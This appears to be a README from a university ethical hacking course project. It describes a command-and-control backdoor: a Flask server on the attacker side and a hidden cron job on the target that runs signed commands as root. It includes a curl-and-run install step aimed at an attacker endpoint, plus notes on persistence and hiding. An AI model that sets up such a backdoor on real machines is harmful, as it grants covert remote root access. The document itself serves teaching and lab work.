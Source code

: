 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be in the same directory as the server

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP}
    ```


### Target Machine

1. Copy over public key to target machine from the attacker machine

    ```bash
    scp public.pem {Target IP}:~/ 
    # Example: scp public.pem user@10.0.2.5
    ```

2. Run the target script

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    cd Command-Control-main
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server responds a signature and commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is sent to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot and this backdoor will persist automatically because by deault cron jobs are run on boot.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip and port where the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users
    - The script is hidden by a period in front of the file name

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.